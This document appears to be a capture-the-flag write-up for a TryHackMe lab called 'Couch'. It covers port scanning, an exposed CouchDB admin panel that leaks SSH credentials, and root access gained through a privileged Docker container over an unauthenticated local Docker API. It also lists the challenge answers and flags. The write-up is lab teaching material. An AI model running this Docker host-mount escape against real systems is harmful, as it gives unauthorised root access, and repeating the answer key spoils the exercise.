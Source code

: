 # Couch

* IP = 10.10.178.121

## Questions/Tasks:

### Nmap Scan Results:

* Scanning for standard 1000 ports only gave us the SSH service as the scan result.
* So I did some googling on **Couch database** by Apache(which is also suggested by the challenge name)
* Hence found this out:<br>
![Screenshot](./assets/1.png)
* Tried to scan that particular port with Nmap, and Bingo!! We found a valid open port...
* `nmap -sC -sV 10.10.178.121 -p22,5984`
```
Starting Nmap 7.80 ( https://nmap.org ) at 2022-07-01 00:05 IST
Nmap scan report for 10.10.178.121
Host is up (0.56s latency).

PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 7.2p2 Ubuntu 4ubuntu2.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey:
|   2048 34:9d:39:09:34:30:4b:3d:a7:1e:df:eb:a3:b0:e5:aa (RSA)
|   256 a4:2e:ef:3a:84:5d:21:1b:b9:d4:26:13:a5:2d:df:19 (ECDSA)
|_  256 e1:6d:4d:fd:c8:00:8e:86:c2:13:2d:c7:ad:85:13:9c (ED25519)
5984/tcp open  http    CouchDB httpd 1.6.1 (Erlang OTP/18)
|_http-server-header: CouchDB/1.6.1 (Erlang OTP/18)
|_http-title: Site doesn't have a title (text/plain; charset=utf-8).
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

```

1. Scan the machine. How many ports are open?

**Ans-2**

2. What is the database management system installed on the server?

**Ans-Couchdb**

3. What port is the database management system running on?

**Ans-5984**

4. What is the version of the management system installed on the server?

**Ans-1.6.1**

* Next we visit the <a href="https://docs.couchdb.org/en/1.6.1/api/server/common.html">CouchDb docs</a>, where searching for administration gives us the `_utils` directory.<br>
![Screenshot](./assets/2.png)

5. What is the path for the web administration tool for this database management system?

**Ans-_utils**

* Searching for all databases gives us `_all_dbs`:<br>
![Screenshot](./assets/3.png)

6. What is the path to list all databases in the web browser of the database management system?

**Ans-_all_dbs**

* Visit the administration page(http://IP:5984/_utils) in your browser and you'll be brought here:<br>
![Screenshot](./assets/4.png)
* Now go to the `secret` database and find the *user:pass* there:<br>
![Screenshot](./assets/6.png)

7. What are the credentials found in the web administration tool?

**Ans-atena:t4qfzcc4qN##**

* SSH into the server using *atena* as username and *t4qfzcc4qN##* as password:<br>
![Screenshot](./assets/5.png)
* The user.txt is present in there itself...

8. Compromise the machine and locate user.txt

**Ans-THM{1ns3cure_couchdb}**

* Firstly we can check for sudo permissions with `sudo -l`, but no luck, we can't run sudo as atena🥲
* Next we check for SUID binaries with `find / -perm -4000 -type f 2>/dev/null` but no interesting binaries found too🤔
* Checking the `.bash_history` file, we find this:<br>
![Screenshot](./assets/8.png)
* Now look carefully docker is running an alpine image which contains the root.txt since it was mounted as a volume
* Hence we can run the same command to get into the docker container and probably find root.txt.
* Run `docker -H 127.0.0.1:2375 run --rm -it --privileged --net=host -v /:/mnt alpine`
* Where,
```
-H => the host to run a container
run is the command
--rm => remove the container if it exists and give a fresh start
-it => interactive (i.e. you'll get a shell to interact with the container)
--privileged => Give extended privileges to this container, given access to all devices
/:/mnt will mount / of filesystem to the /mnt of container's filesystem
alpine is the imagename
```
* Hence you'll get an interactive root shell inside the container with the main filesystem mounted to /mnt of container filesystem.
* Find the flag at /mnt/root/root.txt

9. Escalate privileges and obtain root.txt

**Ans-THM{RCE_us1ng_Docker_API}**
